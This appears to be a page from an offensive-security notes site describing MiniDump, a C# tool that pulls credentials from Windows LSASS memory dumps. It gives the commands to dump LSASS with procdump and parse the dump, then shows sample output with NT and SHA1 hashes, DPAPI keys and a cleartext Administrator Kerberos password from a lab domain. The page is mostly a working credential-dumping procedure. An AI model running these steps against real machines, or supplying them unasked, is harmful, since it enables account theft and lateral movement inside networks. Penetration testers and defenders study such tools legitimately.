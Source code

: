 ```yaml
---
title : "Minidump"
# pre : ' '
description : "C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps."
date : 2021-10-22T11:14:39+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Minidump

C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps.

Supported Credentials:

* Lsa
* Msv
* Kerberos
* WDigest
* SSP
* TsPkg
* Credman
* Dpapi
* CloudAP

## Installation

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

## Usage

[Sysinternals - procdump]({{< ref "sysinternals" >}})

```plain
PS C:\> .\procdump64.exe (ps lsass).id data -ma
PS C:\> MiniDump.exe lsass.dmp
```

## Examples

```plain
PS C:\Users\johndo\Downloads> .\MiniDump.exe C:\temp\lsass.DMP
Dpapi failed: Object reference not set to an instance of an object.
=====================================================================
[*] LogonId:     0:56684667
[*] LogonType:   CachedInteractive
[*] Session:     1
[*] LogonTime:   2021-10-25 13:46:52
[*] UserName:    Administrator
[*] SID:         S-1-5-21-1182270690-2338034634-174722242-500
[*] LogonDomain: OFFSEC
[*] LogonServer: SRV2016
[*] Msv
    DomainName: OFFSEC
    UserName:   Administrator
    NT:      97f2592347d8fbe42be381726ff9ea83
    Sha1:    d0321e2e4e0712ba7b3f8c1998931312bf6a8b05
    Dpapi:   408853f35eebebe52bffa11b77478cca
[*] Kerberos
    DomainName: OFFSEC.NL
    UserName: Administrator
    Password: Welkom1234
=====================================================================
[*] LogonId:     0:55957391
[*] LogonType:   Interactive
[*] Session:     2
[*] LogonTime:   2021-10-25 13:45:17
[*] UserName:    DWM-2
[*] SID:         S-1-5-90-0-2
[*] LogonDomain: Window Manager
[*] Msv
    DomainName: OFFSEC
    UserName:   WIN10$
    NT:      b5fb60bc5eb9092f9f96b89fcf0fee45
    Sha1:    33bcd239a53d5650bebd83a4963630805ab24465
[*] Kerberos
    DomainName: offsec.nl
    UserName: WIN10$
    Password: 82 b5 45 75 ad 5b 36 d1 3e 3a cf 7b fb ea 0a ca 48 63 92 25 71 53 0b f4 2d f8 80 48 28 7f fc 96 43 5b 30 19 ba 4c 88 be 53 7b 7b 11 a9 d8 c1 23 88 e2 24 01 64 45 31 08 08 af c6 97 bb 88 6e 0f 86 05 dd 43 12 d2 81 f3 ab e1 c3 11 1e cc 42 13 d2 e4 24 fa 2f 8e 6f eb 02 70 2e d4 92 30 42 01 a9 bd f9 cc 34 63 b2 78 41 c2 f4 94 73 8a 24 9c 3d cf 1d cf d5 5a dc 8b 47 0a c6 20 62 f8 8f 70 2c 16 92 ed f6 0a 4e 59 fe d4 7d d2 94 77 11 8a 4c c2 ce 3e 45 d4 53 e4 e7 e5 96 23 99 03 29 5e 2d 85 76 66 59 39 cc 33 1a cc 7a ac e5 c9 36 1d f2 18 0a fe 8b e3 41 ae 4c bd 0c fc 1a 5b a6 1b f2 c8 00 b7 19 5c 28 90 10 4b 32 a5 38 e0 44 1d b2 72 db c9 e5 ad 86 0f 7c 34 d1 82 40 24 83 0f 2f 60 3c 28 78 dc ef 82 03 de 4a 13 33 62 c3 5f
    NT: B5FB60BC5EB9092F9F96B89FCF0FEE45
[...]
```

## URL List

* [Github.com - Minidump](https://github.com/cube0x0/MiniDump)
